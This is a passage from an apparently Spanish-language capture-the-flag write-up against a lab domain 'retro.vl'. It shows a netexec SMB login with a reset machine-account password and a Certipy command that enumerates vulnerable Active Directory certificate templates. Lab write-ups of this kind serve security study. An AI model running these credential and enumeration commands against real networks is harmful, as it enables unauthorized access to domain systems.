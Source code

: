 ✅ _Password changed successfully_

### 3. ✅ Verificamos acceso con `netexec`

```bash
netexec smb dc.retro.vl -u 'banking$' -p NuevaPass123
```

![](../img/992c1e0544d6ca31c06eaaa5b4f8b9ff.png)

✅ Acceso confirmado.

### 4. 🔍 Enumeración de plantillas de certificados vulnerables

Buscamos plantillas vulnerables con Certipy:

```bash
certipy find -u 'BANKING$@retro.vl' -p NuevaPass123 -vulnerable -stdout
```

![](../img/4eeb0652874e6f2edc4aa72280b61a5f.png)
